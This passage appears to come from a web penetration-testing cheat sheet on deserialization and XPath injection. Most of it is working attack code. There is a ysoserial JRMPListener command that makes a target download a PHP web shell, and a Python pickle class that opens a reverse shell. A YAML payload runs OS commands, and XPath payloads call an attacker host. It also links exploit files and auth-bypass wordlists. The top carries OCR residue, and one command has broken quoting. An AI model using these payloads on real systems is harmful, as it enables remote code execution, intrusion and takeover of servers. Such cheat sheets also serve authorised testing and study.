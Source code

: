 -> Good Sign  
java.io.IOException
  
#### JRMPListener and JRMPClient (CommonsCollections)
```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 80 CommonsCollections "curl http://ip:port/shell.php -o /var/www/shell.php"
java -jar ysoserial-all.jar “JRMPClient” ip:80” |base64 -w0
```

### Python Deserialization
#### Pickle
```
import pickle
import os
from base64 import b64decode,b64encode

class malicious(object):
    def __reduce__(self):
        return (os.system, ("/bin/bash -c \"/bin/sh -i >& /dev/tcp/ip/port 0>&1\"",))

ok = malicious()
ok_serialized = pickle.dumps(ok)
print(b64encode(ok_serialized))
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/python/py_pickle.py

### YAML Deserialization
  
```
!!python/object/apply:os.system ["sleep 5"]
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/yaml/exploit.yaml

### nodejs Deserialization

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## XPATH Injection
```
error()
* and doc('http://hacker.site/')
* and doc('http://hacker.site/', name(/*) ))
```
  
### Tool
https://xcat.readthedocs.io/en/latest/
  
### Wordlists for SQLI e XPath - Authentication Bypass
https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt  
https://pastebin.com/raw/rKpsMp0g  
